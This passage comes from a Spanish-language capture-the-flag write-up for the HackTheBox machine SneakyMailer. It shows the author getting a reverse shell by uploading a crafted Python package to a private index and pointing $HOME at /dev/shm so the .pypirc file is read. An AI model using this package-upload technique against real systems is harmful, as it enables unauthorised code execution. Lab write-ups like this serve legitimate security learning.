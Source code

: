 Y en nuestra ejecución anterior agregaremos:

```bash
–» python3 setup.py sdist register -r locuras upload -r locuras
```

Vamos a la máquina víctima, subimos el nuevo `setup.py`, subimos `.pypirc`, indiquémosle que tome el index **locuras** e intentemos conseguir la reverse Shell :)

:( Obtenemos este error:

```bash
...
  File "/usr/lib/python3.7/distutils/command/register.py", line 80, in _set_config
    raise ValueError('%s not found in .pypirc' % self.repository)
ValueError: locuras not found in .pypirc
```

Como sabemos el archivo debe estar en la ruta `$HOME`, validemos que ruta tenemos y si podemos escribir sobre ella

```bash
developer@sneakymailer:/dev/shm$ echo $HOME
echo $HOME
/var/www/dev.sneakycorp.htb
developer@sneakymailer:/dev/shm$ cp .pypirc /var/www/dev.sneakycorp.htb
cp .pypirc /var/www/dev.sneakycorp.htb
cp: cannot create regular file '/var/www/dev.sneakycorp.htb/.pypirc': Permission denied
developer@sneakymailer:/dev/shm$ 
```

Pues no, no tenemos permiso, juguemos con las variables del entorno y digámosle que tome `/dev/shm` como `$HOME` por un momento y después lo dejamos como estaba :P

```bash
developer@sneakymailer:/dev/shm$ ORIGINALhome=$HOME
ORIGINALhome=$HOME
developer@sneakymailer:/dev/shm$ echo $ORIGINALhome
echo $ORIGINALhome
/var/www/dev.sneakycorp.htb
developer@sneakymailer:/dev/shm$ export HOME=/dev/shm
export HOME=/dev/shm
developer@sneakymailer:~$ echo $HOME
echo $HOME
/dev/shm
developer@sneakymailer:~$ 
```

Listo, ejecutemos y veamos:

```bash
–» python3 setup.py sdist register -r locuras upload -r locuras
```

![bashrevshlow](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/bashrevshlow.png)

SI SEÑOOOOOOOR!!! Obtenemos nuestra reverse Shell, que maravilla y que locura... (Estuve mis buenos días dándole a esto) 
Dejamos la variable `$HOME` como estaba:
